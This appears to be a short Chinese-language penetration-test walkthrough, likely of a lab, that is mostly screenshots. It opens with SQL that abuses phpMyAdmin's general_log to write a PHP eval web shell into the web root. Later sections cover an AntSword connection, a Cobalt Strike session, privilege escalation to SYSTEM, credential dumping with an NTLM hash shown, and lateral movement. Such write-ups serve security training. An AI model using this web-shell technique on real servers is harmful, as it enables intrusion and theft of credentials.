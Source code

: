 ### phpmyamin写shell

```sql
show variables like '%general%';
SET GLOBAL general_log = 'ON'; show variables like '%general%';
SET GLOBAL general_log_file='C:/phpStudy/WWW/lxy.php';
SELECT '<?php eval($_POST["lxy"]); ?>';
```

![image-20250521141511303](./assets/image-20250521141511303.png)

*****

### 蚁剑连接

![image-20250521141658575](./assets/image-20250521141658575.png)

*****

### 上线CS

![image-20250521142000065](./assets/image-20250521142000065.png)

- 尝试提权

![image-20250521142116436](./assets/image-20250521142116436.png)

- 成功提到`system`权限

![image-20250521142306574](./assets/image-20250521142306574.png)

- 端口扫描

![image-20250521142353255](./assets/image-20250521142353255.png)

- 抓取明文密码

![image-20250521142749945](./assets/image-20250521142749945.png)

```cmd
ntml:295b75bdc039b5c4e06f05b277b9e9de
```

*****

### 横向移动

![image-20250521142947487](./assets/image-20250521142947487.png)

- 拿下`192.168.52.138`

![image-20250521143111074](./assets/image-20250521143111074.png)
